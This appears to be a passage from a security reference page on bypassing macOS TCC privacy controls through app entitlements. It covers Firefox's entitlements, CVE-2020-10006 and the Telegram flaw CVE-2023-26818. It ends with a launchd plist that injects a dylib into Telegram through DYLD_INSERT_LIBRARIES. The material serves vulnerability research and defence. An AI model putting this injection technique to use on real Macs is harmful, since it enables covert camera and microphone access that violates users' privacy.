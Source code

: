 ### Original Report

For more info check the [**original report**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).
```xml
codesign -d --entitlements :- /Applications/Firefox.app
Executable=/Applications/Firefox.app/Contents/MacOS/firefox

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>com.apple.security.cs.allow-unsigned-executable-memory</key>
<true/>
<key>com.apple.security.cs.disable-library-validation</key>
<true/>
<key>com.apple.security.cs.allow-dyld-environment-variables</key><true/>
<true/>
<key>com.apple.security.device.audio-input</key>
<true/>
<key>com.apple.security.device.camera</key>
<true/>
<key>com.apple.security.personal-information.location</key>
<true/>
<key>com.apple.security.smartcard</key>
<true/>
</dict>
</plist>
```
### CVE-2020-10006

The binary `/system/Library/Filesystems/acfs.fs/Contents/bin/xsanctl` had the entitlements **`com.apple.private.tcc.allow`** and **`com.apple.security.get-task-allow`**, which allowed to inject code inside the process and use the TCC privileges.

### CVE-2023-26818 - Telegram

Telegram had the entitlements **`com.apple.security.cs.allow-dyld-environment-variables`** and **`com.apple.security.cs.disable-library-validation`**, so it was possible to abuse it to **get access to its permissions** such recording with the camera. You can [**find the payload in the writeup**](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/).

Note how to use the env variable to load a library a **custom plist** was created to inject this library and **`launchctl`** was used to launch it:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>com.telegram.launcher</string>
<key>RunAtLoad</key>
<true/>
<key>EnvironmentVariables</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/tmp/telegram.dylib</string>
</dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
```